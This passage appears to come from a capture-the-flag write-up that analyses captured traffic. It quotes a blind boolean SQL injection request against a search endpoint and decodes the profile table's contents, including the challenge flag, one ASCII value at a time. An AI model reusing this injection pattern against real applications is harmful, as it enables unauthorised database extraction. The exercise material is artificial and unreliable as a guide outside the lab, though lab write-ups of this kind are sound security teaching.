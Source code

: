 ![image.png](image%2010.png)

```php
GET /search_app/search.php?query=1 AND ORD(MID((SELECT IFNULL(CAST(`description` AS NCHAR),0x20) FROM profile_db.`profiles` ORDER BY id LIMIT 6,1),18,1))>83 HTTP/1.1
```

Looking at this query, we can see that the 18th letter’s ascii value is greater than 83, and in another query above it:

![image.png](image%2011.png)

![image.png](image%2012.png)

It is not greater than 84, making the value 84. Which issss… drum roll…. a capital `T` in our ascii table! We have found where our flag is! Now we simply just have to extract it one character at a time with this method. Increasing our character position and finding which packets return true or false to find the ascii value of each character. It went a little something like this!

```php
<character_position> -> <ascii_value> -> <letter>

18 -> 84 -> T
19 -> 72 -> H
20 -> 77 -> M
21 -> 122 -> {
22 -> 114 -> r
23 -> 51 -> 3
24 -> 116 -> t
25 -> 114 -> r
26 -> 49 -> 1
27 -> 51 -> 3
28 -> 118 -> v
29 -> 49 -> 1
30 -> 110 -> n
31 -> 103 -> g
32 -> 95 -> _
33 -> 116 -> t
34 -> 104 -> h
35 -> 51 -> 3
36 -> 95 -> _
37 -> 100 -> d
38 -> 117 -> u
39 -> 109 -> m
40 -> 112 -> p
41 -> 125 -> }
```
